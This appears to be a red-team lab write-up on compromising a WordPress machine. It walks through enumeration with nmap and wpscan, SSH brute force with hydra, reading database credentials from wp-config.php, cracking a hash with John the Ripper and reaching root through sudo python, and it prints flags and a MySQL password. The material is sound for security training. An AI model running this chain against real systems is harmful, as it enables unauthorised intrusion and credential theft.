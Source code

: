 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -A 192.168.1.110 
```
![nmap scan](./Images/nmap.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp Open ssh
  - Port 80/tcp Open http
  - Port 111/tcp Open rpcbind
  - Port 139/tcp netbios-ssn
  - Port 445/tcp netbios-ssn

The following vulnerabilities were identified on each target:
- Target 1
  - Open Ports
  - Wordpress Scan
  - Weak Passwords
  - MySQL Database Access
  - MySql Data Exfiltration
  - Privilege Escalation


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - Wpscan was used to enumerate users of Target 1's Wordpress site.
      ```bash
      wpscan http://192.168.1.110/wordpress/ --enumerate u`
      ```
      ![enumerate users](./Images/enumerate_users.png)
      - Michael had a weak password that could have been guessed easily. Alternatively a tool such as hydra could be used to brute force the password.
      ```bash
      hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh
      ```
      ![hydra](./Images/hydra.png)
      - After the discovery of michael's password accessing the Target 1 machine via ssh became possible.
      ```bash  
      ssh michael@192.168.1.110
      ```
      ![michael ssh](./Images/michaelSSH.png)
      - Flag1 can be found by moving into the `/var/www/html/` directory then viewing the `service.html` file using a command such as `cat` or `nano`.
      ```bash
      cd /var/www/html/
      cat service.html
      ```
      ![flag1](./Images/flag1.png)
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - Flag2 can be found using the `locate` command.
      ```bash
      locate flag2.txt
      ```
      ![locate flag2](./Images/locateFlag2.png)
      ```bash
      cd /var/www/
      cat flag2.txt
      ```
      ![flag2](./Images/flag2.png)
  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Login credentials can be found by moving into the `/var/www/html/wordpress/` directory and viewing the `wp-config.php` file using a command such as `cat` or `nano`.
      ```bash
      cd /var/www/html/wordpress/
      cat wp-config.php
      ```
      ![MySQL login credentials](./Images/mysqlCredentials.png)
      - The login credentials can be used to login to the MySQL database.
      ```bash
      mysql -u root -p'R@v3nSecurity'
      ```
      ![MySQL login](./Images/mysqlLogin.png)
      - After logging in to the MySQL database and browsing through the various databases and tables flag3 can be found in the `wp_posts` table. _flag4 can also be found here._
      ```sql
      show databases;
      use wordpress;
      ```
      ![show databses and use wordpress](./Images/showDatabases.png)
      ```sql
      show tables;
      ```
      ![show tables](./Images/showTables.png)
      ```sql
      select * from wp_posts 
      ```
      ![flag3](./Images/flag3.png)
  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Although flag4 can be found in the same location as flag3, there is an alternate method to finding it.
      - While still in the MySQL database the password hashes for michael and steven can be found in`wp_users`.
      
      ![password hashes](./Images/passwordHashes.png)
      - After discovering steven's password hash and exfiltrating it into a txt file John the Ripper can be used to crack the password hash.
      ```bash
      echo 'steven:$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/' > wp_hashes.txt
      john wp_hashes.txt
      ```
      ![steven](./Images/john.png)
      - Steven's credentials can be used to ssh back into the Target 1 machine.
      ```bash
      ssh steven@192.168.1.110
      ```
      ![steven SSH](./Images/stevenSSH.png)
      - By checking steven's privliges it is revealed that he has `sudo` priviliges for python
      ```bash
      sudo -l
      ```
      ![privileges](./Images/privileges.png)
      - Steven's python privileges can be use to escalate to root.
      ```bash
      sudo python -c 'import pty;pty.spawn("/bin/bash")'
      ```
      ![privilege escalation](./Images/privilegeEscalation.png)
      - As root the `locate` command can be used to find flag4.
      ```bash
      locate flag4.txt
      ```
      ![locate flag4](./Images/locateFlag4.png)
      ```bash
      `cd /root/`
      cat flag4.txt
      ```
      ![flag4](./Images/flag4.png)